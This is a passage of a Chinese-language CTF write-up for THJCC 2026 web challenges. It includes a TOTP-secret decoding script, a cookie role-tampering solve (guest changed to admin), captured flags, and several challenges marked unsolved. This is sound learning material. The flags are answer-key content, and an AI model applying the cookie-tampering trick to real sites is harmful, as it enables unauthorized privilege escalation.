def _xor_decode(data: str, key: str) -> str:
    raw = base64.b64decode(data)
    return "".join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(raw))

secret = _xor_decode(_ENC_SECRET, _XOR_KEY)
print("secret =", secret)

totp = pyotp.TOTP(secret)
print("current code =", totp.now())
```
運行畫面：

### Flag:
```THJCC{yeyoumeng_Wh0i5_SsRf}```

## [0422](https://ctf2026.thjcc.org/challenges#0422-65) (100)

### 題目：
A very simple challenge about a web exploit.

Really simple. LOL.  
http://chal.thjcc.org:3000/
> Author: UmmIt Kin

### 解題心得：
這題也是一個非常簡單的題目，我們來直接看網站：

這是一個登入介面，我們首先先嘗試看看`admin` `admin`這組帳密：

看起來失敗了，那我們就直街打開F12來看看，首先我想到的是先去確認Cookies，於是我就打開`Application\Cookies\http://chal.thjcc.org:3000`，然後看到了這個：

裡面有一個role的資料，上面寫著我是`guest`，於是我直接把它改成`admin`後重新整理網頁，於是：

### Flag:
```THJCC{c00k135_4r3_n07_53cur3_1f_n07_51gn3d_4nd_p13453_d0_7h3_53cur3_c0d1ng_r3v13w_101111```

## [-msgboard](https://ctf2026.thjcc.org/challenges#msgboard-62) (356)

### 題目：
http://chal.thjcc.org:36001/

:::Tip[Download Flie]
[Archive.zip](https://file.pg72.tw/share/ljZW0pYa)
:::

### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

### Flag:
```THJCC{}```

## [-Simple Hack](https://ctf2026.thjcc.org/challenges#Simple%20Hack-8) (410)

### 題目：
We developed a file upload platform. I think it is really secure. Isn't it?
http://chal.thjcc.org:5222/
> Author: UmmIt Kin

### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

### Flag:
```THJCC{}```

## [-noaiiiiiiiiiiiiiii](https://ctf2026.thjcc.org/challenges#noaiiiiiiiiiiiiiii-7) (100)

### 題目：
i hate ai (except my bot daughter) : ( it is a ctf challenge for human have a nice play (btw Look closely, it's a bit of an old joke.)  
http://chal.thjcc.org:3001 <------------
> Author: Syuan

### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

#### Flag:
```THJCC{}```

## [-r2s](https://ctf2026.thjcc.org/challenges#r2s-12) (436)

### 題目：
Should I upgrade my web server?  
I'm too lazy. nvm, lol.  
It should be safe enough?  
http://chal.thjcc.org:10200/
> Author: UmmIt Kin

### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

### Flag:
```THJCC{}```
